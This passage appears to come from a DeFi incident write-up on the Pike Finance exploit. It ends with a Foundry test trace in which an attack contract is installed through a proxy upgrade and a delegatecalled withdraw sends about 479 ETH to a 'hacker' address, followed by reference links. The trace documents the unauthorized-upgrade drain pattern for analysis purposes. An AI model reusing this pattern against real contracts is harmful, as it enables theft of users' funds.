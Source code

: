 ```bash
    │   │   │   ├─ [168] AttackContract::proxiableUUID() [staticcall]
    │   │   │   │   └─ ← [Return] 0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc
    │   │   │   ├─ emit Upgraded(param0: AttackContract: [0xa5E4A93e61fF98e988ad9dae6169fc6944CC70E4])
    │   │   │   ├─ [7185] AttackContract::withdraw(hacker: [0x7E5F4552091A69125d5DfCb7b8C2659029395Bdf]) [delegatecall]
    │   │   │   │   ├─ [0] hacker::fallback{value: 479393838338750964434}()
    │   │   │   │   │   └─ ← [Stop] 
    │   │   │   │   └─ ← [Stop] 
    │   │   │   └─ ← [Stop] 
    │   │   └─ ← [Return] 
    │   └─ ← [Stop] 
    ├─ [0] console::log("After Hacker balance: ", 479393838338750964434 [4.793e20]) [staticcall]
    │   └─ ← [Stop] 
    ├─ [0] VM::stopPrank()
    │   └─ ← [Return] 
    └─ ← [Stop] 

Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 424.12ms (1.11ms CPU time)

Ran 1 test suite in 969.87ms (424.12ms CPU time): 1 tests passed, 0 failed, 0 skipped (1 total tests)
```
<br>

## 05. Reference

- [https://www.pike.finance/](https://www.pike.finance/)
- [https://docs.pike.finance/](https://docs.pike.finance/)
- [https://twitter.com/PikeFinance/status/1785572875124330644](https://twitter.com/PikeFinance/status/1785572875124330644)
